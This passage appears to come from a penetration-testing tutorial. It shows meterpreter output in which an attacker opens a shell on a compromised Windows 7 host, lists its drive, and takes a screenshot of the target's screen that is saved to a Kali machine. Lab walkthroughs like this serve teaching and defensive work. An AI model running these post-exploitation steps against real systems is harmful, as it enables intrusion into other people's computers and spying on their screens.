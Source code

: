 ```
meterpreter > shell
Process 1116 created.
Channel 1 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>cd \
cd \

C:\>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 6EB6-ADFB

 Directory of C:\

23-01-2015  14:20    <DIR>          EXP750_7.6000.1197
14-07-2009  04:20    <DIR>          PerfLogs
20-10-2016  08:57    <DIR>          Program Files
07-06-2021  17:25    <DIR>          Program Files (x86)
24-06-2021  11:45    <DIR>          Users
06-12-2022  17:45    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  38.814.728.192 bytes free

C:\>
```

### 8. Capture the screen on the target machine

`screenshot`

```
meterpreter > screenshot 
Screenshot saved to: /home/kali/vaqZFiRO.jpeg
```
